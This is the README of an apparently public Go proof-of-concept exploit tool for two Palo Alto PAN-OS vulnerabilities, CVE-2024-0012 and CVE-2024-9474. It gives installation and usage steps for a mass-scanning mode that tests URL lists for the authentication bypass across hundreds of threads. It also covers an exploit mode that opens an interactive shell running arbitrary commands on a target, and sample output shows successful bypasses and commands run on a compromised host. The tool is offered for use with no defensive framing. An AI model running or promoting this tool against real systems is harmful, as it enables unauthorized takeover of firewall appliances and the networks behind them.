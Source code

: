 # Palo Alto PAN-OS Exploit PoC - CVE-2024-0012 & CVE-2024-9474
This script is a Proof of Concept (PoC) exploit for vulnerabilities found in Palo Alto PAN-OS (CVE-2024-0012 & CVE-2024-9474). The script can be used to either scan a list of URLs for the vulnerability or exploit a single vulnerable URL interactively.

## Features
- Scan Mode: Automatically scans multiple URLs to detect the vulnerability.
- Exploit Mode: Interactively exploits a single URL, allowing the user to execute arbitrary commands.
- Concurrency Support: The script supports multiple threads to speed up the scanning process.
- Output Saving: Results are saved in a specified output file.
- Progress Bar: A customizable progress bar to track the scanning progress.
## Prerequisites
- Go 1.18 or later installed on your machine.
Required Go dependencies installed (see below).
### Installation
1. Clone the repository
```
git clone https://github.com/aratane/CVE-2024-9474
cd CVE-2024-9474
```
2. Install dependencies
This script relies on several Go libraries. Install them by running:
```
go mod tidy
```
### The required dependencies include:
github.com/cheggaaa/pb/v3: Progress bar for displaying scanning status.
github.com/gookit/color: Enhanced color support for console output.
github.com/manifoldco/promptui: Interactive command-line prompts.
github.com/p0dalirius/goopts/parser: Command-line argument parsing.
## Usage
Running in Scan Mode (to scan multiple URLs)
Scan Mode is used to check multiple URLs for the vulnerability. You need to provide a file with a list of URLs.
```
go run main.go --file urls.txt --output results.txt --threads 100
```
--file: Path to a file containing a list of URLs to scan.
--output: Path to save the scan results (default: output.txt).
--threads: Number of concurrent threads to use for scanning (default: 200).
### Example urls.txt:
```
http://example1.com
http://example2.com
```
Running in Exploit Mode (to exploit a single URL interactively)
### Exploit Mode allows you to interactively exploit a vulnerable URL.
```
go run main.go --url http://target.com --output results.txt
```
--url: The target URL to exploit.
--output: Path to save the exploit results.
Once in Exploit Mode, you can enter commands to be executed on the target system. Type exit to quit the interactive shell.

## Show Help
To display help information:
```
go run main.go --help
```
## Example Outputs
### Scan Mode
After the scan completes, the results will be saved to the specified output file (e.g., results.txt):
```
[+] http://example1.com - Auth Bypass successful
[+] http://example2.com - Auth Bypass successful
```
### Exploit Mode
When exploiting a URL interactively, the command output is shown after executing commands on the target:
```
# ls /var
bin  app  lib  tmp
# exit
[+] Exiting interactive shell.
```
## Configuration
Command-Line Arguments
Flag	Description	Default Value
--url	The URL to exploit in Exploit Mode	
--file	File with URLs to scan (used in Scan Mode)	
--output	Output file for saving results	output.txt
--threads	Number of concurrent threads for scanning (Scan Mode)	200
--help	Show help message	

## License
This project is licensed under the MIT License - see the LICENSE file for details.

